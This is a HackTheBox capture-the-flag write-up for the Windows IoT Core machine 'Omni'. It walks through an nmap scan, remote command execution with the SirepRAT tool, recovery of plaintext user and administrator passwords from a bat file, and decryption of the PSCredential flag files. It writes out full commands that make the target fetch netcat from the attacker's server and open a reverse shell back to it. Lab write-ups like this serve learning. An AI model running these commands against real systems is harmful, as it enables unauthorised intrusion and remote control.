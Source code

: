 ```yaml
---
title: HackTheBox Omni Writeup
published: true
---
```


![logo](https://i.ibb.co/WsG6YNc/logo.png)

# []()Methodology

* Service Enumeration.
* Windows IoT core Exploitation.
* Privilege Escalation.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 135/tcp --> Microsoft Windows RPC
* 8080/tcp --> Microsoft IIS httpd

> **nmap -sC -sV -Pn -oN scan.txt 10.10.10.204**

```ruby

Nmap scan report for 10.10.10.204
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

> **let's check the web service first.**

# []()Checking Web Service

![web-page](https://i.ibb.co/zRpFnrg/web-service.png)

> **i tried to ByPass the authentication by many ways but i failed, so let's dig more.**

# []()Windows IOT Core Exploitation.

> **from the nmap scan we know from the port 8080 that this is a windows device portal, so let's search for any exploits.**

![google-search](https://i.ibb.co/K6ds03Z/google-search.png)

* coole, let's read this [article](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/) first.

> **from the article i understand that this is a RCE, so we will execute command on the server as we like.**

![](https://i.ibb.co/xGQSXq2/rce.png)

> **first let's download this [repo](https://github.com/SafeBreach-Labs/SirepRAT.git)**

> **after downloading this repo, let's make some noise now.**

> **first i will execute a command to upload the nc to Omni server, then i will execute another command to get reverse shell.**

* **let's go**

1. **let's upload nc to the machine.**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.16.4:8000/nc64.exe" --v

![](https://i.ibb.co/HXJB1z6/upload-nc.png)

2. **let's get a reverse shell**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.16.4 9002 -e powershell.exe" --v

![](https://i.ibb.co/hVQSkX7/reverse-shell.png)

* **we got reverse shell as a system but this is a tricky part, we can't read user or root flag, so let's dig more.**

> in this PATH **C:\Program Files\WindowsPowerShell\Modules\PackageManagement** i've found a bat file which contain a credentials for user and administrator.

![credentials](https://i.ibb.co/fMkFjWn/creds.png)

```ruby

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

```

> **let's login to the web appliaction now with user credentials.**

![proccess](https://i.ibb.co/vPtR6RM/app-pcs.png)

> **there is a Proccesses tap and we can run commands from it**.

> **let's get a reverse shell now.**

![](https://i.ibb.co/6tqrHhs/app-whoami.png)

> **let's check our user.txt**

![](https://i.ibb.co/vh36BgH/user.png)

> **this file encrypted by PSCredential** so we need to decrypt it.

* **follow this [blog](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/exporting-and-importing-credentials-in-powershell)**.

> **$userflag = Import-Clixml -path user.txt**

> **$userflag.getnetworkcredential().password**

![](https://i.ibb.co/FWgKNYv/user-flag.png)

* **user flag done.**

# []()Privilege Escalation

> **open the web appliaction and login with administrator credentials and do the same steps.**

> **$adminflag = Import-Clixml -pat root.txt**

> **$adminflag.getnetworkcredential().password**

![](https://i.ibb.co/HTJBJGY/adminflag.png)

* cheers!

> **Thanks for reading.**

 <script src="https://www.hackthebox.eu/badge/103789"></script>


